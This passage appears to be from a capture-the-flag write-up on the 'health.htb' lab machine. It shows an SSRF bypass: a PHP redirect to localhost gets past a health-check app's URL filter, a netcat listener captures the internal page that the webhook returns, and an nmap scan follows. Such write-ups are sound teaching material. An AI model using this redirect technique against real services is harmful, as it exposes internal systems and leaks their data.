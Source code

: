 There was some validation to prevent things like `localhost` and `file://`. I tried using my machine as the monitored URL and sending a redirection from it.

```bash
$ cat redirect.php            
<?php
header("Location: http://localhost/");

$ php -S 0.0.0.0:80 
[Thu Jan  5 06:59:48 2023] PHP 8.1.12 Development Server (http://0.0.0.0:80) started
[Thu Jan  5 07:00:19 2023] 10.10.11.176:48094 Accepted
[Thu Jan  5 07:00:19 2023] 10.10.11.176:48094 [302]: GET /redirect.php
[Thu Jan  5 07:00:19 2023] 10.10.11.176:48094 Closing
```

It worked, my webhook received the content of the application.

```bash
$ nc -klvnp 8000
listening on [any] 8000 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.176] 52638
POST /payload HTTP/1.1
Host: 10.10.14.6:8000
Accept: */*
Content-type: application/json
Content-Length: 8993
Expect: 100-continue

{
  "webhookUrl": "http://10.10.14.6:8000/payload",
  "monitoredUrl": "http://10.10.14.6/redirect.php",
  "health": "up",
  "body": "<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"UTF-8\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\">\n    <meta http-equiv=\"X-UA-Compatible\" content=\"ie=edge\">\n    <title>HTTP Monitoring Tool<\/title>\n    <link href=\"http:\/\/localhost\/css\/app.css\" rel=\"stylesheet\" type=\"text\/css\"\/>\n<\/head>\n<body>\n<div class=\"container\">\n        <div class=\"container\" style=\"padding: 150px\">\n\n\t<h1 class=\"text-center\">health.htb<\/h1>\n\t<h4 class=\"text-center\">Simple health checks for any URL<\/h4>\n\n\t<hr>\n\n\n\n\n\t<p>This is a free utility that allows you to remotely check whether an http service is available. It is useful if you want to check whether the server is correctly running or if there are any firewall issues blocking access.<\/p>\n\n\t<div class=\"card-header\">\n\t    Configure Webhook ..."
}

```

I was able to use it to query the server. But I already had access to the site on port 80. So that did not help much. I was going to write a script to try all ports on the server. But I remembered that RustScan did not show filtered ports. I scanned the server again, but with Nmap.

```bash
$ nmap target                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-04 08:42 EST
Nmap scan report for target (10.10.11.176)
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
3000/tcp filtered ppp

Nmap done: 1 IP address (1 host up) scanned in 1.55 seconds
```
